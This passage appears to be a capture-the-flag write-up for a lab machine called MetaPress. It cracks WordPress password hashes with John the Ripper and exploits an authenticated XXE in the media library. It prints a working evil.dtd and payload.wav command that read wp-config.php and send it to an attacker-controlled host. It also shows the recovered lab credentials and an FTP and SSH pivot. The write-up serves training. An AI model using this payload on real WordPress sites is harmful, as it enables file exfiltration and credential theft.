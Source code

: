 #### 2.1.1.2. johntheripper
Let's place the two hashes into a file called `hash.txt`
```
$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.
$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70
```
Then run johntheripper: `john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt`

John is able to crack the manager's password hash as `partylikearockstar` so let's login at `http://metapress.htb/wp-admin/`

### 2.1.2. Authenticated XXE Within the Media Library

From our WPScan results we know there is another vulnerability within the media library. The detailed proof of concept for this vulnerability is available on [WPScan](https://wpscan.com/vulnerability/cbbe6c17-b24e-4be4-8937-c78472a138b5) to read.

Following the process on [WPSec](https://blog.wpsec.com/wordpress-xxe-in-media-library-cve-2021-29447/) we will be able to construct our payloads.

Our `evil.dtd` will be
```
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/metapress.htb/blog/wp-config.php">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://IP:PORT/?p=%file;'>" >
```
and we will use the following command to generate our `payload.wav`
```bash
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://IP:PORT/evil.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
```

We can use `python3 -m http.server` to host our `evil.dtd`

On the WordPress admin panel, navigate to the Media Library and upload your `payload.wav`, in the terminal where you have your http server running you will see some output. Decode this output using base64


The decoded output is the `wp-config.php` file that we specified in `evil.dtd`, in this file we will find credentials for the ftp server
```
/** MySQL database username */
define( 'DB_USER', 'blog' );

/** MySQL database password */
define( 'DB_PASSWORD', '635Aq@TdqrCwXFUZ' );
...
define( 'FTP_USER', 'metapress.htb' );
define( 'FTP_PASS', '9NYS_ii@FyL_p5M2NvJ' );
```
let's use the command `ftp metapress.htb@10.10.11.186` with the password.

in `/mailer/send_email.php` we can find some more credentails
```
$mail->Username = "jnelson@metapress.htb";                 
$mail->Password = "Cb4_JmWM8zUZWMu@Ys";   
```
now let's use these to ssh into the machine
